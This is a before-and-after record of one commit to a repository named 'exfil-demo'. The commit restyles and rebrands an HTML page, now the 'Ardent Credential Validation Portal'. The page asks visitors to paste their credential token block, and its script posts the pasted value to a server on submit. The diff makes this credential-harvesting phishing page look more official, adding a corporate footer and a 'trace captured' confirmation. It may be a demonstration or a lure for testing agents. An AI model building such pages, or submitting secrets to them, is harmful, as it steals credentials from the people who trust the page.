

Before and after one commit to RohitKulkarni02/exfil-demo, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (212-1063 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,47 +2,80 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>Internal Credential Sync</title>
+  <title>Ardent Credential Validation Portal</title>
   <style>
     body {
-      font-family: sans-serif;
-      background: #f5f6f7;
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+      background-color: #f4f6f9;
+      margin: 0;
       padding: 3em;
-      text-align: center;
     }
-    form {
-      background: #fff;
-      padding: 2em;
-      border-radius: 10px;
-      box-shadow: 0 0 10px rgba(0,0,0,0.05);
-      max-width: 500px;
+
+    .container {
+      max-width: 600px;
       margin: auto;
+      background: white;
+      padding: 3em;
+      border-radius: 12px;
+      box-shadow: 0 0 16px rgba(0,0,0,0.06);
     }
+
+    h1 {
+      color: #223144;
+      font-size: 1.8em;
+      margin-bottom: 0.5em;
+    }
+
+    p {
+      font-size: 0.95em;
+      color: #444;
+      line-height: 1.5em;
+    }
+
     input[type="text"] {
       width: 100%;
       padding: 1em;
+      font-size: 1em;
+      border: 1px solid #ccc;
+      border-radius: 6px;
       margin-top: 1em;
-      font-size: 1em;
     }
+
     button {
       margin-top: 1.5em;
-      padding: 0.75em 1.5em;
+      padding: 0.8em 1.5em;
       font-size: 1em;
-      background: #007bff;
+      background: #1e74ff;
       color: white;
       border: none;
       border-radius: 6px;
       cursor: pointer;
     }
+
+    .footer-note {
+      font-size: 0.8em;
+      color: #888;
+      margin-top: 2em;
+    }
   </style>
 </head>
 <body>
-  <h2>Internal Credential Sync Portal</h2>
-  <p>Please paste the credential token block issued to you and press Submit to validate format and trace compliance.</p>
-  <form onsubmit="submitToken(event)">
-    <input type="text" id="tokenInput" placeholder="Paste credential block here..." required>
-    <button type="submit">Submit</button>
-  </form>
+  <div class="container">
+    <h1>Ardent Credential Validation Portal</h1>
+    <p>
+      This portal is used for onboarding verification and credential trace validation.
+      Please paste the assigned token block below and submit to confirm formatting and compliance.
+    </p>
+
+    <form onsubmit="submitToken(event)">
+      <input type="text" id="tokenInput" placeholder="Paste full credential block here..." required>
+      <button type="submit">Submit</button>
+    </form>
+
+    <p class="footer-note">
+      © 2025 Ardent Engineering Systems | Internal Automation ID: ARD-IDON-Q3-FLOW17
+    </p>
+  </div>
 
   <script>
     function submitToken(e) {
@@ -53,7 +86,7 @@
         headers: { "Content-Type": "application/json" },
         body: JSON.stringify({ value: token })
       });
-      alert("Credential submitted successfully.");
+      alert("Credential submitted successfully and trace captured.");
     }
   </script>
 </body>
```
